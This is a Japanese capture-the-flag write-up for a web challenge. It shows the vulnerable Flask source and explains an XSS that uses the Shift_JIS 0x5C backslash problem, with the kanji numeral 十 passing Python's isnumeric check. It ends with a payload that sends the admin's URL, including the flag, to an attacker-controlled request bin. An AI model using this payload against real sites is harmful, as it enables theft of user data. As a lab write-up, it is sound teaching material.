 # Num-restaurant🍷

## 問題文
Adminがお腹を空かせています。  
ただ、嫌いなものがあるようです。  
[http://160.251.83.96:31415](http://160.251.83.96:31415/)  
[app.py](files/app.py)  

## 難易度
**medium**  

## 作問にあたって
5C問題問を出したかったのですが、それだけだと簡単すぎるのでpythonの`isnumeric`と組み合わせました。  
ブラウザのバグにより、文字コード判定がおかしくなることでXSSが発生する脆弱性を見つけたことがあり、それが元ネタです。  
懐かしいのもイイですよね...。  

## 解法
サイトにアクセスすると謎のメニューが表示されている。  
![site.png](images/site.png)  
配布されたapp.pyは以下のようだった。  
```python
~~~
def sanitize_price(price):
    if not price.isnumeric():
        return "10000000"
    return price

def sanitize_meal(meal):
    if not meal.isascii():
        return "Kasumi"
    #Is it possible to block XSS?
    return "".join([c for c in meal if ord(c) > 0x1f]).replace("\\", "\\\\").replace("\"", "\\\"").replace("'", "\\'").replace("&", "&amp;").replace("<", "&lt;").replace(">", "&gt;").replace("http", "num")

@app.route("/")
def num_restaurant():
    niku = random.randint(1, 1000000)
    sushi = random.randint(1, 1000000)
    yasai = random.randint(1, 1000000)
    price = request.args.get("price")
    meal = request.args.get("meal")
    if (not price) or (not meal):
        script = ''
    else:
        script = f'''<script>
var text = "￥{sanitize_price(price)}{sanitize_meal(meal)}😋Yummy!!";
alert(text);
</script>
'''
    html = f"""<!DOCTYPE html>
<html lang="ja">
<head>
<title>Num-restaurant</title>
{script}
</head>
<body>
<h1>Welcome to Num-restaurant 🔥</h1>
<a href="?price={niku}&meal=Niku"><p style="font-size:200%;">￥{niku} / Niku🍖</p></a>
<a href="?price={sushi}&meal=Sushi"><p style="font-size:200%;">￥{sushi} / Sushi🍣</p></a>
<a href="?price={yasai}&meal=Yasai"><p style="font-size:200%;">￥{yasai} / Yasai🥗</p></a>
</body>
</html>
"""
    if request.args.get("encoding") == "shift_jis":
        return Response(html, content_type='text/html; charset=shift_jis')
        #No one uses it anymore, but I implemented it because I was born in 1997 and missed it.
    else:
        return Response(html, content_type='text/html; charset=utf-8')
~~~
```
各メニューはリンクとなっていて、`price`、`meal`、`encoding`を指定できるようだ。  
サニタイズは完璧なように見え、`price`は数字、`meal`はASCIIとなっている。  
試しに`?price=1&meal=Niku`にアクセスすると`￥1Niku😋Yummy!!`とalertされた。  
`shift_jis`が怪しく、有名な5C問題XSSが狙えそうだが、サニタイズによりマルチバイト文字が利用できないように見える。  
次にflagの場所を確認すると、以下のように`/admin`よりAdminがクエリに渡しアクセスしている。  
```python
~~
        url = f'http://160.251.83.96:31415?price={urllib.parse.quote(request.form["price"])}\
&meal={urllib.parse.quote(request.form["meal"])}\
&encoding={urllib.parse.quote(request.form["encoding"])}'
        try:
            flag = os.getenv("FLAG")
            cmd = f'chromium-browser --no-sandbox --headless --disable-gpu "{url}&flag={flag}"'
            subprocess.run(cmd, shell=True, timeout=3)
        except:
            return "Admin🥰Yummy!!"
        return "Admin🤤Yucky!!"
~~~
```
アクセスするURLは指定されておりchromiumのExploitでのRCEやOSコマンドインジェクションは狙えない(はず)ため、やはりXSSするしかないようである。  
方針として5C問題を狙い、`";alert(1);//`のサニタイズ結果である`\\";alert(1);//`の前方のバックスラッシュを消すことを考える。  
例として``表";alert(1);//``などが考えられる。  
ここで問題となるのが、`meal`にはマルチバイト文字を含めることができない点である。  
よくソースを観察すると`var text = "￥{sanitize_price(price)}{sanitize_meal(meal)}😋Yummy!!";`であるので、`price`にマルチバイト文字を含めても同様の結果が引き起こせそうだ。  
ただし、`price`には`isnumeric`がかかっているため、数字以外は入力できない。  
ここで以下のような`isnumeric`の気持ち悪い仕様を思い出す。  
```python
>>> "12345".isnumeric()
True
>>> "表".isnumeric()
False
>>> "百".isnumeric()
True
```
つまり漢数字が使えるようだ。  
あとは漢数字の中から5C問題に利用できるものを見つければよい。  
結果`十`が利用できることがわかる。  
これにより`price=十`、`meal=";alert(1);//`、`encoding=shift_jis`でXSSが刺さるようになる。  
`http://160.251.83.96:31415?price=十&meal=";alert(1);//&encoding=shift_jis`にアクセスすると確認できる。  
XSSが達成できたので、あとはアクセスしたURLを取得し、リクエストが受け取れるサーバに投げればよい。  
リダイレクトさせようとすると、alertなどゴミがついているのでChromeではリダイレクトがうまく走らない(Firefoxでは無視される)。  
alert関数を書き換えてやればうまく通る。  
`http`が`num`に変換されるのは、スキームを記述しなければよいだけである。  
最終的な送信クエリは以下になる。  
`price`: `十`  
`meal`: ```"-(location.href=`//[リクエストが受け取れるサーバ]?s=`+btoa(location.href));alert=function(){};//```  
`encoding`: `shift_jis`  
※`[リクエストが受け取れるサーバ]`は[https://requestbin.com/](https://requestbin.com/)などを使うとよい。  
これを`/admin`で送信してやる(encoding入力欄がhiddenなので注意)。  
サーバで受け取ったbase64されたデータをでコードするとflagが得られる。  
![flag.png](images/flag.png)  

## imctf{1_d0n7_w4n7_70_347_5C_4nym0r3}
